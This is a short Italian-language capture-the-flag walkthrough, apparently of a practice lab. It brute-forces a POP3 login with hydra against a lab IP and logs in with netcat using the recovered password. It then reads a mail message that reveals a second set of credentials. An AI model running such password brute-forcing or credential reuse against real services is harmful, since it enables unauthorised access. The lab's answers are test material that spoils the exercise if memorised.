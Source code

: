 Dai un'occhiata al sito. Quali altri utenti riesci a trovare?
tra i messaggi troviamo
```
doak
```

Qual era la password di questo utente?
```
hydra -l doak  -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.183.248 -s 55007 pop3
```

```
[55007][pop3] host: 10.10.183.248   login: doak   password: goat
```

```
goat
```

Utilizza le credenziali di questo utente per esaminare tutti i servizi che hai trovato e scoprire più email.
```
nc 10.10.183.248 55007
```

```
USER doak
```

```
Pass goat
```
chiediamo lista dei messaggi
```
list
```
```
+OK 1 messages:
1 606

```
leggiamo i messaggi, iniziamo dal primo
```
retr 1
```
```
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

```
Quale altro utente puoi trovare su doak?
```
dr_doak
```